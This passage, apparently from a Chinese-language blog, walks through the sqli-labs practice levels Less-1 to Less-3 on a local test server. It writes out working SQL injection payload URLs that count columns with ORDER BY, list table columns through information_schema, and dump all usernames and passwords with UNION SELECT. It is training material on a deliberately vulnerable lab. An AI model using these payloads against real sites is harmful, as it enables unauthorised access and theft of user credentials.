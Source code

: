 ![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/sql-p1-14.png)

这里我们已经查询到users表,继续查询users表里面的字段

```sql
http://127.0.0.1/SQL1/Less-1/?id=-1' union select 1,2,group_concat(column_name)  from information_schema.columns where table_name='users'--+
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/sql-p1-15.png)

这里我们已经查询到username 和password字段,继续查询username 和password,这里引入一个函数concat_ws(‘a’,b,c)，他会将b和c之间用a分割

```sql
http://127.0.0.1/SQL1/Less-1/?id=-1' union select 1,2,group_concat(concat_ws('-',username,password))  from security.users--+
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/sql-p1-9.png)

至此我们就已经拿到所有的用户账号和密码。

### Sqli-labs-Less-2

```sql
http://127.0.0.1/SQL1/Less-2/?id=1  #正常回显
http://127.0.0.1/SQL1/Less-2/?id=1' #有报错
```

判断为数字型注入

使用order by 3 没有报错 使用order by 4 发生报错，说明字段数为3

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/sql-p2-1.png)

查看哪些数据可以回显，将?id=1改为?id=-1 或者其它不存在的值，使用union注入 且通过order by结果为3 可以得到

```sql
http://127.0.0.1/SQL1/Less-2/?id=-1 union select 1,2,3
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/sql-p2-2.png)

我们看到数据2,3发生回显，以下步骤与Sqli-labs-Less-1一样，这里就不再赘述。

### Sqli-labs-Less-3

当我们使用?id=1时没有报错,使用?id=1'报错并且提示我们少了个)

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/sql-p3-1.png)

因此得出这一关可直接使用?id=1’) 来进行注入攻击

使用order by 3 没有报错 使用order by 4 发生报错，说明字段数为3

```sql
http://127.0.0.1/SQL1/Less-3/?id=1') order by 4--+
```

